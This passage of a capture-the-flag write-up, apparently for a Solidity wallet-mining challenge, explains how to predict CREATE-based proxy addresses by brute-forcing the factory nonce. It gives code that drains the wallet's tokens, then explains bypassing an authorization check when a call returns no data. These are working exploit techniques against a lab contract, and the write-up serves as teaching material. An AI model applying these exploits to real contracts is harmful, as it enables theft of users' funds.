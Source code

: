The deployment of a custom contract as a wallet is made feasible because the `GnosisSafeProxyFactory.sol` function `createProxy()` employs the `CREATE` opcode. This opcode generates a new address using only the keccak256 hash of the sender and nonce values.

As we know the sender, we need to find out the hash by bruteforcing it:

```solidity
for (uint8 i = 0; i < 100; i++) {
  wallet = factory.createProxy(address(attacker), "");
  if ((address(wallet)) == 0x9B6fb606A9f5789444c17768c6dFCF2f83563801) {
    break;
  }
}
```

With the found nonce, we create the attacking wallet, and perform the actual draining:

```solidity
vm.setNonce(address(factory), 43);
wallet = factory.createProxy(address(attacker), "");

// Now that we have control of this address, we can drain its funds.
AttackerWallet(address(wallet))
  .transfer(
    address(level.token()),
    level.playerAddress(),
    level.DEPOSIT_TOKEN_AMOUNT());
```

#### Drain the walletDeployer contract.

The attack exploits this check made by the `can()` function, after calling the authorizer proxy

```solidity
if and(not(iszero(returndatasize())), iszero(mload(p))) {return(0,0)}
```

The logic of this line can be seen as

```
              +---------------------------+
              | Is `returndatasize` != 0? |
              +---------------------------+
          No                | Yes
          |                 V
 +---------------------+   +---------------------------------------+
 | Pass (move forward) |   | Did the `can` function return `true`? |
 +---------------------+   +---------------------------------------+
                           | No             | Yes
                           V                V
              +------------------+    +---------------------+
              | Return `0`       |    | Pass (move forward) |
              +------------------+    +---------------------+
```

Then, if we find a way for the proxy to not return data, we can bypass the control at `can()`, suceeding in draining the walletDeployer via the `drop()` function.
